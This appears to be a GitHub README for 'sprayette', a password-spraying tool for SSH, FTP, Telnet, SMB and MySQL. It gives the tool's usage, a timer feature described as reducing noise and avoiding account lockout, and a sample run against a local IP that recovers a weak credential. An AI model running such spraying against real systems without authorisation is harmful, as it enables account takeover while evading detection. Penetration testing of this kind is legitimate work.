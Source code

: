#***PASSWORD SPRAY MULTI USE (PSMU) AKA SPRAYETTE***
# Introduction
	The idea of sprayette was to have a tool that it can be used to perform a password spray over multiple 
	services like ssh,ftp,telnet,smb,mysql so far. 
	Also adds the possiblity of use a timer for the process so it can "less noisy" and in some cases avoid
	an account lockout since its a brute force attack.


# Requisites
	argparse
	time
	telnetlib
	paramiko (SSH)
	mysql.connector
	ftplib

# Usage
	root@kali# ./sprayette.py -h
	usage: sprayette.py [-h] [-p PORT] protocol ip users passwords attemps timer

	positional arguments:
		protocol              Protocol to perform the spray (telnet,ssh,ftp,smb,mysql)
		ip                    The ip to perform the spray
		users                 Users list (one per line)
		passwords             Passwords list (one per line)
		attemps               The amount of attemps before the timer starts
		timer                 The sleep time (minutes)

		optional arguments:
		 -h, --help            show this help message and exit
		 -p PORT, --port PORT

# Example
	root@kali# ./sprayette.py ssh 192.168.0.146 user.txt passwords.txt 2 1
	[*] Trying with misc:qwerty -> Failed!!!
	[*] Trying with neo:qwerty -> Failed!!!
	[*] Trying with root:qwerty -> Failed!!!
	[*] Trying with misc:toor -> Success!!!
	[*] Trying with neo:toor -> Failed!!!
	[*] Trying with root:toor -> Failed!!!
	Going to sleep for 1 minutes
	Back on spray
	[*] Trying with neo:password -> Failed!!!
	[*] Trying with root:password -> Failed!!!
	Obtained the following credentials:
	misc:toor

